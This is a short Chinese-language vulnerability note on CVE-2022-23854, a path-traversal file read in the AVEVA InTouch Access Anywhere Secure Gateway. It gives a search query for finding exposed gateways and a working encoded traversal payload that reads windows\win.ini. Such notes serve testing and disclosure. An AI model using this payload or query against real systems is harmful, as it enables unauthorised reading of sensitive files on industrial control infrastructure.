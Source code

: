 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

```
AVEVA InTouch安全网关
```

## 网络测绘

```
body="InTouch Access Anywhere"
```

## 漏洞复现

登录页面

![image-20221017170909794](./images/202210171709863.png)

验证POC

```
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![image-20221017170935596](./images/202210171709651.png)